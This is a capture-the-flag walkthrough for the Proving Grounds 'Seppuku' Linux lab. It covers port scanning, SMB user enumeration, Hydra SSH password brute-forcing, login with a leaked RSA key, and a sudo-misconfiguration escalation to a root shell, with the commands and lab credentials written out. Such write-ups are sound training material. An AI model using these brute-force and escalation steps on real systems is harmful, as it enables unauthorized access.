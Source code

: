 ```yaml
---
layout: default
title: Seppuku
parent: Proving Grounds - Linux
nav_order: 1
---
```


# Seppuku

---

## Discovered Ports for Enumeration

- 21 - FTP
- 22 - SSH
- 80 - HTTP
- 445 - SMB
- 7080 - ssl empoweri
- 7601 - HTTP
- 8088 - HTTP

## Users and Credentials

- _Users_: seppuku, samurai, tanto
- _Credentials_: seppuku:eeyoree, samurai:12345685213456!@!@A

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.166.90
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed

## 80 - HTTP

Nothing useful

## 445 - SMB

### Enum4linux

Discovers three user accounts:

- seppuku
- samurai
- tanto

![seppuku_users](../../../assets/images/ctfs/proving_grounds/seppuku/seppuku_users.png)

## 7601 - HTTP

wfuzz discovered /secret directory

![secret](../../../assets/images/ctfs/proving_grounds/seppuku/secret.png)

"password.lst" contains potential user passwords for target machine.

![password_list](../../../assets/images/ctfs/proving_grounds/seppuku/password_list.png)

wfuzz also discovered the /keys directory which contains an RSA private key

![private](../../../assets/images/ctfs/proving_grounds/seppuku/private.png)

# Exploitation

---

## Hydra password cracking

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## Authenticate with RSA key

Authentication with RSA private key discovered in the /keys directory works with "tanto" user

```bash
ssh -i id_rsa tanto@192.168.166.90
```

![tanto_ssh](../../../assets/images/ctfs/proving_grounds/seppuku/tanto_ssh.png)

# Post-Exploitation

---

## Enumerate user directories

Locate _.passwd_ file located in /home/seppuku directory.

samurai:12345685213456!@!@A
{: .warn }

## sudo -l

The "samurai" user can run the following command with sudo privileges and no password:

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/seppuku/sudo_l.png)

We can exploit this with the following steps:

1. ssh as "tanto"
2. create directory .cgi_bin
3. create "bin" file in /.cgi_bin
4. make "bin" executable
5. switch back to "samurai" user
6. execute the sudo command to create /var/tmp/bash
7. execute /var/tmp/bash and get root privileges

### SSH as tanto user

We discovered the id_rsa private key for "tanto" during enumeration

```bash
ssh -i id_rsa tanto@192.168.166.90
```

### Create /.cgi_bin/bin

```bash
mkdir .cgi_bin
cd .cgi_bin
nano bin
```

![bin_file](../../../assets/images/ctfs/proving_grounds/seppuku/bin_file.png)

Make "bin" executable

```bash
chmod +x bin
```

### Execute sudo command as samurai user

Reauthenticate as the "samurai" user and execute the privileged sudo command

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

### Run bash binary and get root privileges

```bash
cd /var/tmp
./bash -p
```

![root](../../../assets/images/ctfs/proving_grounds/seppuku/root.png)
